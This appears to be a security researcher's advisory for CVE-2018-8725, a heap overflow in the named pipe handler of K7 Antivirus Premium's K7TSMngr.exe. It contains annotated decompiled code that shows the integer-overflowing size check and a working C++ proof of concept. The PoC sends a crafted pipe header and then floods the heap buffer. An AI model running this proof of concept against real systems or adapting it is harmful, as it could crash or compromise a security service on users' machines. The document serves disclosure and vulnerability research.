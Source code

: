 # CVE-2018-8725

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7TSMngr.exe 16.0.0.70*

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Following on from the background piece above, in the top level pipe handler function there is a vulnerability in the header packet which can lead to a heap overflow:

# **TODO: MORE HERE? What message type, how much can it overflow, etc**


```C++
int __cdecl NamedPipeHandler(HANDLE dwBytesRead)
{
    // ... Locals ...

    bReturn = ReadFile(hPipe, &stInput, 0x1Cu, (LPDWORD)&dwBytesRead, 0);
    dwLastError = GetLastError();
    if ( bReturn || dwLastError == 234 )
    {
        // Sanity check that we are allowed to talk to the pipe... relatively simple to see the
        // checks and bypass them.
        if ( dwBytesRead == 0x1C
            && stInput.dwMagic == 0x4B375453
            && stInput.dwControlCode == 0x1010
            && stInput.dwInSize == 0x1C )
        {
            // This calculation here is overflowable. As an attacker, I own dwSizeToRead and 
            // dwOutputDataSize, and they are not checked for length at all. Therefore all I need
            // to do is make a situation where dwSizeToAlloc is less thatn stInput.dwSizeToRead.
            if ( (unsigned int)(stInput.dwSizeToRead + stInput.dwOutputDataSize + 36) <= 0x100000 )// VULN
            {
                dwSizeToAlloc = stInput.dwSizeToRead + stInput.dwOutputDataSize + 36;
                hProcessHeap = GetProcessHeap();
                // We allocate the data here...
                pBuffer = (PBYTE)HeapAlloc(hProcessHeap, 0, dwSizeToAlloc);
                if ( pBuffer )
                {
                    v8 = &pBuffer[stInput.dwSizeToRead];
                    if ( stInput.dwSizeToRead )
                    {
                        dwBytesRead = 0;
                        // pBuffer is (dwSizeToAlloc) bytes large. Therefire if this is smaller 
                        // than dwSizeToRead, we are going to overflow the heap.
                        bReturn_1 = ReadFile(hPipe_1, pBuffer, stInput.dwSizeToRead, (LPDWORD)&dwBytesRead, 0);
                        // ... 
                    }
                    // ...
                }
                // ...
            }
            // ...
        }
        // ...
    }
    // ...
}
```


# PoC Code
The following code simply demonstrates the buffer overflow which can be detected using a debugger, or setting up debug heaps on the process. This wasn't turned into anything further as it demonstrated the issue well enough for the development team to fix.

```C++
#include <Windows.h>
#include <stdio.h>

typedef struct unk1
{
	DWORD dwMagic;
	DWORD dwControlCode;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwSomeFunction;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
};

int wmain(int argc, wchar_t** argv)
{
	HANDLE hPipe = CreateFileW(L"\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

    // This is the pipe message header packet.
	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwControlCode = 0x1010;
	u1.dwInSize = 28;

	// This combination of sizes means that theck will pass, and it will allocate 0 bytes, return a
	// valid pointer and we can overwrite by 0x10000 bytes. We can control how much will be
	// overwritten by changing the input size in this calculation.
	u1.dwInputDataSize = 0x10000;
	u1.dwOutputDataSize = 0xffffffff - 35 - u1.dwInputDataSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

	// The second ReadFile will try to read 0x10000 bytes into a buffer that is 0 bytes, therefore
    // causing a buffer overflow.
	BYTE data[0x10000] = { 0 };
	memset(data, 0x41, sizeof(data));
	if (!WriteFile(hPipe, data, sizeof(data), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}
}


```

